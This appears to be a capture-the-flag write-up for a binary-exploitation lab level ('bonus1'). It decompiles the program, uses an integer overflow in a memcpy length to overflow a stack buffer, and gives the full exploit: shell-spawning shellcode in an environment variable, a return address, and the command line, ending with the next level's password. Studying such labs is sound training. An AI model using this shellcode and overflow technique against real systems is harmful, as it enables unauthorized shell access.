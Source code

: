 get the binary on host
* scp -P 4242 bonus1@192.168.56.107:./bonus1 ./binary/bonus1

decompile using ghidras
```c
int main(int param_1, undefined4 param_2)
{
	int uVar1;
	undefined local_3c [40];
	int local_14;
	
	local_14 = atoi(*(undefined4 *)(param_2 + 4));
	if (local_14 < 10) {
		memcpy(local_3c,*(undefined4 *)(param_2 + 8),local_14 * 4);
		if (local_14 == 1 464 814 662) {
		execl("/bin/sh","sh",0);
		}
		uVar1 = 0;
	}
	else {
		uVar1 = 1;
	}
	return uVar1;
}
```
unsigned int max = 4294967296\
4294967296 / 4  = 1073741824 => memcpy 0;

let's use our global shellcoe again\
`export SHELLCODE=$(python -c "print '\x90'*200 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'")`

`/tmp/get_env SHELLCODE`\
got `0xbffff82e`


build the payload $(python -c "print 'a' * OFFSET + '\x2e\xf8\xff\xbf'")\
len to cpy is -(1073741824 - 'PRINT_LEN'/4);
* -(1073741824 - (OFFSET + 4) / 4)
* -(1073741823 - OFFSET/4)

It's dichotomy time !
* OFFSET == 56

So the len is `-(1073741823 - 56/4)` = `-(1073741823 - 14)` = `-1073741809`

./bonus1 -1073741809 $(python -c "print 'a' * OFFSET + '\x2e\xf8\xff\xbf'")
```
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```